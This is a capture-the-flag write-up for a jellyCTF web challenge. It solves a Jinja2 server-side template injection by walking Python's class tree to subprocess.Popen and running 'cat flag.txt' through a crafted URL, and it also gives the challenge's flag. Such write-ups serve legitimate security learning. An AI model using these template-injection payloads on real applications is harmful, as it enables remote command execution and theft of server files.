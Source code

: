# bro_visited_his_site_2

**Difficulty**: Easy

**Points earned**: 453

**Description**:

> ok, but can you get /app/flag.txt
> 
> note: this is not the flask secret - that's the first bro_visited_his_site
> 
> 20 point hint: list of techniques for the vuln class
> 
> Author: arepi
> 
> https://bro-visited-his-site.jellyc.tf/

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

**Solution**: 

Somehow we need to execute a shell command to print the contents of `flag.txt`. Doing some Googling about template injection (https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), I found out that I needed to access the global object and use Popen to read `flag.txt`. This is the snippet that caught my attention:

> ### RCE
> ```python
> # The class 396 is the class <class 'subprocess.Popen'>
> {{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,> stdout=-1).communicate()[0].strip()}}
> ```

When we visit `https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()`, we are greeted with a massive list of classes. The index of Popen here wasn't the same as it was in the HackTricks article above, so I had to look for it myself.

After finding Popen's index, I plugged it into the rest of the URL to get the flag:

```python
https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()[520]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

![bro_visited_his_site_2 solution](./images/bro_visited_his_site_2_sol.png "bro_visited_his_site_2 solution")

**Flag**: `jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}`